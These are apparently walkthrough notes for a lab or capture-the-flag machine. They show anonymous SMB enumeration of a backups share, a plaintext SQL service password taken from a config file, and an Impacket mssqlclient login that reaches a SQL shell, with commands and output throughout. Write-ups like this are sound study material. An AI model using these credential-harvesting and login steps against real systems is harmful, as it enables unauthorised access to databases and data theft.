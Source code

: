                smbclient -N \\\\10.129.79.20\\backups
              Try "help" to get a list of possible commands.
              smb: \> ls
                .                                   D        0  Mon Jan 20 07:20:57 2020
                ..                                  D        0  Mon Jan 20 07:20:57 2020
                prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020


                                        "Found some credentials in  prod.dtsConfig"  
                                        Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;
________________________________________________________________________________________________________________________

### Impacket ###

    -Impacket is a collection of Python classes for working with network protocols. Impacket is
    focused on providing low-level programmatic access to the packets and for some protocols
    (e.g. SMB1-3 and MSRPC) the protocol implementation itself.

#Impacket
             https://github.com/fortra/impacket.git

#setting up
            sudo python3 setup.py install

#running                                                                                                                                                                                                      >
            python3 mssqlclient.py -h
________________________________________________________________________________________________________________________

    " Got a connection! "
pythonn3 mssqlclient.py ARCHETYPE/sql_svc@10.129.79.20 -windows-auth
Impacket v0.13.0.dev0+20250814.3907.9282c9bb - Copyright Fortra, LLC and its affiliated companies

  Password:
  [*] Encryption required, switching to TLS
  [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
  [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
  [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
  [*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
  [*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
  [*] ACK: Result: 1 - Microsoft SQL Server 2017 RTM (14.0.1000)
  [!] Press help for extra shell commands
  SQL (ARCHETYPE\sql_svc  dbo@master)>
  
